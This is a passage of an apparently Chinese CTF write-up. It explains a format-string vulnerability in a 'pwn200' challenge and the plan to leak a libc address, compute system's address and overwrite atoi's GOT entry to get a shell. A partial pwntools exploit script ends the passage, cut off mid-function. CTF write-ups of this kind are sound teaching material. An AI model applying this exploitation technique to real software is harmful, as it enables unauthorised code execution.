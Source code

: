 ![](https://ae01.alicdn.com/kf/HTB1k44kaebviK0jSZFNq6yApXXaA.jpg)

计算出Canary的值和基地址后，就可以通过溢出让程序程序跳转到MAGIC去了，就可以getshell了，至于MAGIC是啥，大家可以翻一下我以前写的文章：http://blog.csdn.net/niexinming/article/details/78512274

最后的效果是：

![](https://ae01.alicdn.com/kf/HTB1LfTUaUz1gK0jSZLeq6z9kVXai.jpg)

### pwn200
把pwns100直接拖入ida中：
main函数：

![](https://ae01.alicdn.com/kf/HTB1NJDWaHY1gK0jSZTEq6xDQVXaf.jpg)

sub_80485CD函数：

![](https://ae01.alicdn.com/kf/HTB173DUaHr1gK0jSZFDq6z9yVXa4.jpg)

在sub_80485CD函数可以看到输入的数据直接进入了printf函数中，所以这个肯定是一个格式化字符串漏洞
先运行一下程序看一下这个程序干了啥

![](https://ae01.alicdn.com/kf/HTB1U4nUaQL0gK0jSZFtq6xQCXXa3.jpg)

再看看程序开启了哪些保护:

![](https://ae01.alicdn.com/kf/HTB1CCjTaKT2gK0jSZFvq6xnFXXaA.jpg)

这个程序开了Canary和栈不可执行

这个题目的思路和http://blog.csdn.net/niexinming/article/details/78512274 差不多，唯一不同的是上一个题目提供了system函数，这个题目要从libc中找system函数，所以首先通过printf打印__libc_start_main函数这个地址，然后根据偏移计算libc的基地址，然后计算出system的实际地址，最后用fmtstr_payload(autofmt.offset, {atoi_got_addr: system_addr})把atio的地址覆盖为system的地址，就可以getshell了

我的exp是：

```
from pwn import *

def debug(addr = '0x0804867E'):
    raw_input('debug:')
    gdb.attach(r, "b *" + addr)

def base_addr(prog_addr,offset):
    return eval(prog_addr)-offset

#localsystem = 0x0003ADA0

context(arch='i386', os='linux', log_level='debug')

r = process('/home/h11p/hackme/huxiangbei/pwne')

#r = remote('hackme.inndy.tw', 7711)

elf = ELF('/home/h11p/hackme/huxiangbei/pwne')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')

def exec_fmt(payload):
    r.recvuntil('WANT PLAY[Y/N]\n')
    r.sendline('Y')
    r.recvuntil('GET YOUR NAME:\n')
    r.recvuntil('\n')
    r.sendline(payload)
    info = r.recv().splitlines()[1]
    print "info:"+info
    r.sendline('10')
```